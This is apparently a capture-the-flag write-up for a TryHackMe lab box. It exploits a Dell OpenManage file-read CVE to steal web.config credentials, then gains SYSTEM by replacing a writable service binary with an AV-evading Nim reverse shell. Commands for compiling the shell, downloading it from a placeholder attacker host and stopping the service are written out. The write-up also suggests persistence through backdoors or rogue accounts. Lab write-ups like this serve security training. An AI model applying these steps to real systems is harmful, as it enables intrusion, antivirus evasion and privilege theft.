










This box is rated medium difficulty on THM and has a cool theme revolving around hacking an APT hacking group to find out who they're targeting next.

It involves us exploiting an older version of Dell EMC OpenManage to read files arbitrarily on the system, leading to user credentials in a web config file. Then we must bypass antivirus to abuse a certain service that allows us to replace its binary with a reverse shell to gain administrator privileges on the system.

_Can you hack the hackers?_

## Scanning & Enumeration
As always I start with an Nmap scan against the given IP to find any and all running services on the host.

```
$ sudo nmap -p21,22,80,1311,3389,7680 -sCV 10.64.156.243 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-24 23:52 CST
Nmap scan report for 10.64.156.243
Host is up (0.042s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0d:fa:da:de:c9:dd:99:8d:2e:8e:eb:3b:93:ff:e2:6c (RSA)
|   256 5d:0c:df:32:26:d3:71:a2:8e:6e:9a:1c:43:fc:1a:03 (ECDSA)
|_  256 c4:25:e7:09:d6:c9:d9:86:5f:6e:8a:8b:ec:13:4a:8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HackSmarterSec
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
1311/tcp open  ssl/rxmon?
| ssl-cert: Subject: commonName=hacksmartersec/organizationName=Dell Inc/stateOrProvinceName=TX/countryName=US
| Not valid before: 2023-06-30T19:03:17
|_Not valid after:  2025-06-29T19:03:17
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Sun, 25 Jan 2026 05:52:40 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|     <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Sun, 25 Jan 2026 05:52:46 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|_    <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-25T05:53:09+00:00
|_ssl-date: 2026-01-25T05:53:14+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2026-01-24T05:49:10
|_Not valid after:  2026-07-26T05:49:10
7680/tcp open  pando-pub?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.54 seconds
```

Looks like a Windows machine and there are six ports open:
- FTP on port 21
- SSH on port 22
- An IIS web server on port 80
- Another web server on port 1311
- RDP on port 3389
- pando-pub? on port 7680

Looking at the scan results shows Nmap's default scripts disclose that FTP is allowing for anonymous logins.



Inside is a list of stolen credit cards and a PNG of another stolen passport (which is just Tyler's face lol). This doesn't really seem like much to help our goal for now so I move onto the web servers.

Checking the landing page on port 80 returns a website for their hacking group which sponsors some less than ethical services.



The page is static and the only real functionality on it is a contact form in order to reach them at. I fire up Gobuster to look for subdirectories/subdomains in the background.

Capturing requests from the website show that the contact form goes nowhere. That pretty much confirms that this port is useless and I can move onto the SSL server on port 1311. Viewing the self-signed certificate only grants us a DNS alternate name for `hacksmartersec`.



The actual page looks to be a DELL EMC OpenManage panel. I click on the About tab in the footer which discloses the version it's running on. Then, I start researching known vulnerabilities in this application with that info and find that [CVE-2020–5377](https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/) allows for arbitrary file reading on this server.

This vulnerability exists due to a default setting in Dell's OpenManage Server Administrator (OMSA) where a central server could log into remote systems in order to conduct management. Attackers can supply a 'rogue' remote node that will reply to the from the OMSA server and grant a logon, and in turn the OMSA issues a web session.

## Initial Foothold
I find a PoC for the rogue server listener [here](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py?ref=benheater.com). To use it, we just need to setup the server, attempt a login on port 1311, and then we have persistent file read capabilities on the server.


Now that we can read files from it, I need to choose what to read. I know there are probably credentials stored for the website and we found the application name in the certificate earlier. I end up checking the config file for the IIS server and grab credentials for a user named Tyler.

The default spot for web content on IIS is located in the inetpub dir, the hard part was getting the app's name.

```
C:\inetpub\wwwroot\hacksmartersec\web.config
```



We can now use these newfound creds to login via SSH to get a cmd.exe shell on the box, as well as grab the user flag under his Desktop folder.



Next, I start looking at routes to get administrator access. Tyler doesn't have any special privileges to abuse nor are there non-standard folders that stand out to me. I try to upload WinPEAS to a Temp directory, but running it gets sniped by Windows Defender. We'll have to get creative.

I enumerate the system manually a few times over but still have trouble finding anything remotely useful. I decide to upload different PrivEsc checker scripts until Windows Defender couldn't flag its fingerprint.



## Privilege Escalation
Eventually, I find [PrivescCheck](https://github.com/itm4n/PrivescCheck/releases/download/2026.01.14-2/PrivescCheck.ps1) and run it to find any binary, process, or privilege to exploit. 



I come back to a finding that an executable named `spoofer-scheduler` is highly vulnerable according to the script. This binary is allowed to be ran by any user but is actually ran under the `LocalSystem`. If we replace this programs `.exe` with our own reverse shell or malicious payload, we can escalate privileges to admin.

There's still just one problem. Windows Defender is alive and well on the system so any normal reverse shell using netcat/msfvenom will get shot down quickly. I do some research on stealthy Windows revshells and actually find a video by Tyler Ramsbey (creator of HackSmarter) showcasing one made in Nim.

This Nim [reverse shell](https://github.com/Sn1r/Nim-Reverse-Shell) has been tested for bypassing AV in both Windows 10 and 11 systems. First I install Nim with the following commands for my Kali VM:

```
#Installing Nim using APT package manager
sudo apt install mingw-w64
sudo apt install nim
```

Then I change the IP and port lines within the script to point towards my netcat listener. I chose port 80 for my reverse shell as we already know that port is not being filtered by Antivirus. 



Then, I compile the code using Nim as mentioned in the GitHub repo, making sure that it has the same name as our binary to be replaced.

```
#Compiling reverse shell code with Nim
nim c -d:mingw --app:gui -o:spoofer-scheduler.exe rev_shell.nim

#Python server on port 80
python3 -m http.server 80

#Downloading reverse shell to remote machine with IWR
Invoke-WebRequest -Uri "http://ATTACKING_IP/spoofer-scheduler.exe" -Outfile spoofer-scheduler.exe
```

Before we move the binary, we'll need to stop the service to avoid any crashes or fatal errors in the program.

```
#Stopping the service
sc stop spoofer-scheduler

#Checking if it has stopped
sc query spoofer-scheduler
```

_Note: You will need to be in cmd.exe in order to run the sc command as Powershell will not allow it._

Now, I change directories to where spoofer-scheduler.exe is located and use curl to upload the reverse shell .exe file, and in turn replacing the original one. 

```
curl http://MACHINE_IP/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

Final step is to setup a netcat listener on port 80 and start the service back up to get a shell as `NT AUTHORITY\SYSTEM`.



Due to how the service manager works, if the program doesn't respond in a timely fashion it will get terminated. However, we still have a few seconds to run commands on the system which is more than enough to grab the list of targets and complete the box.



For persistence, we could add a backdoor binary of some kind or even a rogue user account to maintain access to their systems. This box was very well done so props to Tyler and the Hack Smarter team for making it.

I hope this was helpful to anyone following along or stuck and that y'all enjoyed it as much as I did. Take care and happy hacking!
